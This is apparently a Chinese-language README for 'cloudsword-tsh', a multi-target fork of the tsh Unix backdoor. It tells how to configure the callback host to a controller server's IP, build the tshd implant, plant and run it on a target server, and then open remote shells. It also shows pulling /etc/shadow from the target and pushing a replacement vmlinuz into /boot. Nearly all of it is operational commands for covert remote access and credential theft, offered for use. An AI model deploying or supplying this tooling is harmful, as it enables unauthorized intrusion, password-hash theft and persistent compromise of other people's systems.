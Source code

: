 # cloudsword-tsh

## 说明

`tsh`的多用户修改版。
基本使用方法与`tsh`相似，添加了多台机器区分上线的功能。

## 使用方式

修改`tsh.h`的`*secret`、`SERVER_PORT`、`CONNECT_BACK_HOST`
正向连接时`CONNECT_BACK_HOST`为`localhost`
反向连接是`CONNECT_BACK_HOST`为`控制端服务器IP`

1、执行`make linux/freebsd/openbsd/netbsd/cygwin/sunos/irix/hpux/osf`，生成linux/freebsd/openbsd/netbsd/cygwin/sunos/irix/hpux/osf版的tshd和tsh

2、`tshd`传至目标服务器，`tsh`为本机控制端

3、在目标服务器执行

```bash
umask 077; HOME=/var/tmp ./tshd
```

## 正向连接

1、开启shell

```bash
./tsh <目标服务器IP>
```

2、执行单条命令

```bash
./tsh <目标服务器IP> "uname -a"
```

3、上传/下载文件

```bash
./tsh <目标服务器IP> get /etc/shadow .
./tsh <目标服务器IP> put vmlinuz /boot
```

## 反向链接(多目标模式)

1、开启shell

```bash
./tsh bc-<目标服务器IP>
```

2、执行单条命令

```bash
./tsh bc-<目标服务器IP> "uname -a"
```

3、上传/下载文件

```bash
./tsh bc-<目标服务器IP> get /etc/shadow .
./tsh bc-<目标服务器IP> put vmlinuz /boot
```